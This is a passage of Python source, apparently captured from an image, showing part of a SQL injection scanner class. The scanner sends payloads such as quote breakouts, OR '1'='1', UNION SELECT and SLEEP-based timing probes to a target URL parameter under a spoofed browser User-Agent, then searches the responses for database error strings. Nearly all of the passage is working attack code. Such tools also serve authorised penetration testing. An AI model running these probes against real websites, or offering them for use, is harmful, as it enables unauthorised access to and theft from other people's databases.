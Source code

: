 ```python
        self.session.headers.update({
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
        })
    
    def test_basic_injection(self, param, value):
        """Test basic SQL injection patterns"""
        payloads = [
            f"{value}'",
            f"{value}\"",
            f"{value}' OR '1'='1",
            f"{value}' AND '1'='1",
            f"{value}' UNION SELECT 1,2,3--",
            f"{value}' AND SLEEP(5)--"
        ]
        
        results = []
        for payload in payloads:
            try:
                params = {param: payload}
                start_time = time.time()
                response = self.session.get(self.target_url, params=params, timeout=10)
                response_time = time.time() - start_time
                
                results.append({
                    'payload': payload,
                    'status_code': response.status_code,
                    'response_time': response_time,
                    'response_length': len(response.text),
                    'error_keywords': self.check_error_keywords(response.text)
                })
            except Exception as e:
                results.append({'payload': payload, 'error': str(e)})
        
        return results
    
    def check_error_keywords(self, response_text):
        """Check for SQL error keywords"""
        error_keywords = [
            'mysql_fetch_array',
            'ORA-01756',
            'Microsoft OLE DB Provider',
            'ODBC SQL Server Driver',
            'PostgreSQL query failed',
            'Warning: mysql_',
            'valid MySQL result',
            'MySqlClient',
            'SQLServer JDBC Driver',
            'SQLException',
            'SQLite error',
            'SQL syntax'
        ]
        
        found_errors = []
        for keyword in error_keywords:
            if keyword.lower() in response_text.lower():
                found_errors.append(keyword)
        
        return found_errors
    
    def scan_parameter(self, param, value):
        """Scan a specific parameter for SQL injection"""
        print(f"Scanning parameter: {param}")
        results = self.test_basic_injection(param, value)
```